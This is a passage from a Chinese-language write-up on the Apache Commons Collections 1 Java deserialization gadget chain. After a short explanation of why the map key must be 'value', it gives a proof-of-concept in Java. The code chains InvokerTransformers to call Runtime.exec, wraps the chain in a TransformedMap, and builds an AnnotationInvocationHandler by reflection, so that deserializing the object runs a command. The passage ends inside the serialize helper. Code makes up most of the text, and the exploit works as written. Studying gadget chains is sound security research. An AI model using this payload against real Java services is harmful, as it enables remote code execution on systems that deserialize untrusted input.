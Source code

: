 需要`var7 != null`才能进入`if`，触发漏洞。想让`var7`不为`null`，就需要从我们控制的map里面得到的键，在`Map var3 = var2.memberTypes();`得到的`Map`里面也有同样的键才行。既然`Retention`里面的键是`value`，因此我们给传入的 `Map`键设置成`value`也就可以了。

至此，整个Gadget就理清了。

写个POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value","feng");
        Map outerMap = TransformedMap.decorate(innerMap,null,chainedTransformer);

        //Reflection
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object o = cons.newInstance(Retention.class,outerMap);

        byte[] bytes = serialize(o);
        unserialize(bytes);

    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
```